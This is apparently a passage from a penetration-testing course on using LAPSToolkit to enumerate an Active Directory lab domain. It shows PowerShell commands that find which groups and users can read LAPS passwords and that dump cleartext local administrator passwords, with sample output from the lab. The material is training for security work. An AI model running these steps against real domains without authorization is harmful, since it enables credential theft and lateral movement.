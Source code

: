The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) greatly facilitates enumerating which domain users can read the LAPS password set for machines with LAPS installed and which machines do not have LAPS installed. One is parsing `ExtendedRights` for all computers with LAPS enabled which shows groups specifically delegated to read LAPS passwords, which are often users in protected groups. An account that has joined a computer to a domain receives `All Extended Rights` over that host, and this right gives the account the ability to read passwords. Enumeration may show a user account that can read the LAPS password on a host. This can help us target specific AD users who can read LAPS passwords.
# Functions
## `Find-LAPSDelegatedGroups`
```powershell
PS C:\htb> Find-LAPSDelegatedGroups

OrgUnit                                             Delegated Groups
-------                                             ----------------
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL                INLANEFREIGHT\Domain Admins
OU=Servers,DC=INLANEFREIGHT,DC=LOCAL                INLANEFREIGHT\LAPS Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL           INLANEFREIGHT\Domain Admins
OU=Workstations,DC=INLANEFREIGHT,DC=LOCAL           INLANEFREIGHT\LAPS Admins
... SNIP ...
```

## `Find-AdmPwdExtendedRights`
This checks the rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights." Users with "All Extended Rights" can read LAPS passwords and may be less protected than users in delegated groups.
```powershell
PS > Find-AdmPwdExtendedRights

ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\Domain Admins Delegated
EXCHG01.INLANEFREIGHT.LOCAL INLANEFREIGHT\LAPS Admins   Delegated
... SNIP ...
```
## `Get-LAPSComputers`
It searches for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.
```powershell
> Get-LAPSComputers

ComputerName                Password       Expiration
------------                --------       ----------
DC01.INLANEFREIGHT.LOCAL    6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.INLANEFREIGHT.LOCAL oj+2A+[hHMMtj, 09/26/2020 00:51:30
... SNIP ...
```